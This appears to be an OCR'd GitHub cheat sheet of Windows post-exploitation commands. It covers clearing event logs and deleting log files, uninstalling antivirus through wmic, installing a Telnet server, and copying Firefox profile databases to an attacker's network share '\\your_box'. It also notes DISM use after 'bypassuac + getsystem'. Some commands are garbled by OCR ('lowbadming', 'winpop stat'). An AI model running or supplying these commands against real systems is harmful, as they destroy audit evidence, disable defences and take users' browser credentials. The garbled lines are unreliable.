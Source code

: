 ## Deleting Logs
```
wevtutil el  (list logs)
wevtutil cl <LogName> (Clear specific lowbadming)
del %WINDIR%\*.log /a /s /q /f
```

## Uninstall AntiVirus
```
wmic product get name /value (this gets software names)
wmic product where name="XXX" call uninstall /nointeractive (this uninstalls software)
```

## Other stuffs
```
pkgmgr usefull  /iu :”Package”
pkgmgr usefull  /iu :”TelnetServer” (Install Telnet Service ...)
pkgmgr /iu:”TelnetClient” (Client )
rundll32.exe user32.dll, LockWorkStation (locks the screen -invasive-)
wscript.exe <script js/vbs>
cscript.exe <script js/vbs/c#>
xcopy /C /S %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\your_box\firefox_funstuff
OS SPECIFICwmicWin2k3
winpop stat domainname
```

## Vista/7 
```
winstat features
wbadmin get status
wbadmin get items
gpresult /H gpols.htm
bcdedit /export <filename>
```

## Vista SP1/7/2008/2008R2 (x86 & x64)

Enable/Disable Windows features with Deployment Image Servicing and Management (DISM):
*Note* Works well after bypassuac + getsystem (requires system privileges)
*Note2* For Dism.exe to work on x64 systems, the long commands are necessary

To list features which can be enabled/disabled:
```
%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /get-features
```

To enable a feature (TFTP client for example):
```
%windir%\System32\cmd.exe /c "%SystemRoot%\system32\Dism.exe" /online /enable-feature /featurename:TFTP
```
